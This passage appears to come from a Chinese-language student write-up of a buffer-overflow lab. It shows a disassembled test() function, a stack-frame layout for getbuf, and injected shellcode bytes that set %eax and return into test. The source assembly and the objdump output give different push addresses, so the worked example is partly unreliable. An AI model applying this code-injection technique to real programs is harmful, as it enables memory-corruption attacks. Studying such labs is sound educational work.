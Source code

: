 结合 test 的前几行代码：
```s
 08048daa <test>:
 8048daa:	55                   	push   %ebp
 8048dab:	89 e5                	mov    %esp,%ebp
 8048dad:	53                   	push   %ebx
 8048dae:	83 ec 24             	sub    $0x24,%esp
 8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
 8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
 8048dbe:	89 c3                	mov    %eax,%ebx
 8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
```

所以应当构造 Gets 的栈帧如下：

| 地址          | 解释                                              |
| ------------- | ------------------------------------------------- |
| 返回地址      | 设置成缓冲区的首地址                              |
| ebp           | 占用4字节                                         |
| ...           | ...                                               |
| ebp - 40 字节 | buf 数组的初始地址，从这里开始注入修改 eax 的代码 |
| ...           | ...                                               |
| ebp - 0x38    | esp，栈帧首地址                                   |

在最开始，同样需要注入一句汇编语句：

```s
movl $0x362d5a70, %eax
push $0x0804920a
ret
```
使用`gcc -m32 -c` 和 `objdump -d`可以得到机器代码：

```s
00000000 <.text>:
   0:	b8 70 5a 2d 36       	mov    $0x362d5a70,%eax
   5:	68 be 8d 04 08       	push   $0x8048dbe
   a:	c3                   	ret     
```

得到需要注入的机器代码：`b8 70 5a 2d 36 68 be 8d 04 08 c3`

为了防止对栈的破坏，%ebp 是被调用者保存寄存器，是 test 在调用 getbuf 之后，getbuf 首先就就压进了栈帧里。同时为了使程序继续运行，需要保证 ebp 不被破坏。使用 gdb，在 getbuf 的第一行 `0x080491f4 ` 处打下断点，研究此时 %ebp 的值。
